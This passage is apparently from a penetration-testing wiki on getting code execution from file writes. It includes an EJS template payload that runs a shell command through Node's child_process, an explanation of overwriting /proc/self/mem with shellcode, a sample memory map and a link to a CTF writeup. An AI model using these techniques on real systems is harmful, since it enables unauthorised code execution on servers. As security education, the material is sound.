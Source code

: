 {% code title="shell.ejs (EJS)" %}
```javascript
<%= process.mainModule.require("child_process").execSync("id").toString() %>
```
{% endcode %}

### Shellcode to memory (requires seek)

If you are not only able to write to a file, but also seek into the file to a specific spot to start writing, you can overwrite memory instructions with [shellcode.md](../../binary-exploitation/shellcode.md "mention") to achieve RCE. The `/proc/self/mem` file exposes the process' memory raw allowing you to read and write by seeking to a memory address.\
With ASLR, the offset of memory addresses is random on modern systems. But if you also have a way to read files, the `/proc/self/maps` file contains a nicely formatted list of all sections and their offsets:

{% code title="/proc/$PID/maps" %}
```clike
55964f749000-55964f74b000 r--p 00000000 08:40 439256    /usr/bin/cat
...
55964f753000-55964f754000 rw-p 00009000 08:40 439256    /usr/bin/cat
559670cec000-559670d0d000 rw-p 00000000 00:00 0         [heap]
7f0d2016e000-7f0d20193000 rw-p 00000000 00:00 0
7f0d20193000-7f0d201bb000 r--p 00000000 08:40 442102    /usr/lib/x86_64-linux-gnu/libc.so.6
...
7f0d20396000-7f0d20398000 rw-p 00202000 08:40 442102    /usr/lib/x86_64-linux-gnu/libc.so.6
7f0d203a9000-7f0d203aa000 r--p 00000000 08:40 442082    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
...
7f0d203e1000-7f0d203e3000 rw-p 00038000 08:40 442082    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fff1b1d8000-7fff1b1f9000 rw-p 00000000 00:00 0         [stack]
7fff1b1fa000-7fff1b1fe000 r--p 00000000 00:00 0         [vvar]
7fff1b1fe000-7fff1b200000 r-xp 00000000 00:00 0         [vdso]
```
{% endcode %}

In here, we can find the address where `libc` is loaded. A common attack now is to download the libc of the remote target with a file read vulnerability (or guess it), then overwrite some commonly used function's instructions with our shellcode.



{% embed url="https://brycec.me/posts/dicectf_2022_writeups#denoblog" %}
denoblog writeup explaining deno sandbox bypass using /proc/self/mem
{% endembed %}

## Configuration Files

If you cannot directly write or execute source code, the configuration of an application or server can often also have large exploitable areas. You may be able to set shell commands directly in here, or change the configuration in some way to aid another method.

### `.ssh/authorized_keys` (dirty)

